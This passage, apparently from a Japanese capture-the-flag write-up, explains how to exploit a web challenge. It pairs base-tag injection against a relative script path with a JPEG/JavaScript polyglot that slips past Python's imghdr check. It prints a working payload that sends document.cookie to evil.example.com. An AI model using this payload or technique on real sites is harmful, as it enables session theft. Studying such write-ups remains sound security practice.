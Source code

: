 `show_utils.js`を読み込む場所はこのように記述されています:
```html
<script nonce="{{ csp_nonce }}" src="../../show_utils.js"></script>
```

パスが相対パスなのでここで悪さができそうです。
都合よく`"base-uri 'self'"`が設定されているので相対パスの起点をいじり放題です。

例えば
```
<base href="http://challenge:8080/uploads/ac5b14adfb22f76b3c500747b5a17a0a/x/x/">
```
とすると、`http://challenge:8080/uploads/ac5b14adfb22f76b3c500747b5a17a0a/show_utils.js`を読み込むようになります。

というわけで`show_utils.js`のファイル名のJavaScriptファイルがこの場所に置かれるように配置したいです。ただし、ファイルの投稿はjpegしか許容されていません。

`app.py`:
```python
@app.route('/upload', methods=['POST'])
def upload():
    if 'user_id' not in session:
        abort(404)

    images = request.files.getlist('images[]')
    for f in images:
        with tempfile.NamedTemporaryFile() as t:
            f.save(t.name)
            f.seek(0)
            if imghdr.what(t.name) != 'jpeg':
                abort(400)

    for f in images:
        name = os.path.basename(f.filename)
        if name == '':
            abort(400)
        else:
            f.save(PATH_IMAGE.format(user_id=session['user_id'], name=name))

    return 'OK'
```

つまり、jpegとjsのpolyglotです。
imghdrがどうやってjpegを判定しているのか調査したら
```python
# ref. https://github.com/python/cpython/blob/3.10/Lib/imghdr.py#L37
def test_jpeg(h, f):
    """JPEG data in JFIF or Exif format"""
    if h[6:10] in (b'JFIF', b'Exif'):
        return 'jpeg'
```
とありました。雑すぎて笑いました。

よって次のようなソースコードを`show_utils.js`という名前で投稿すればよいです:
```javascript
//    JFIF
const url = "https://evil.example.com";
setTimeout(() => {
  location = url + "?" + document.cookie;
}, 1000);
```


[^1]: 実際にはコンテスト中にこの謎挙動の仕様調査はせず、10回くらい同じ文字列を投げれば何個かヒット漏れするでしょという気持ちで、雑にリクエストを投げています。
[^2]: https://github.com/waderwu/My-CTF-Challenges/blob/master/0ctf-2021/1linephp/writeup/1linephp_writeup_en.md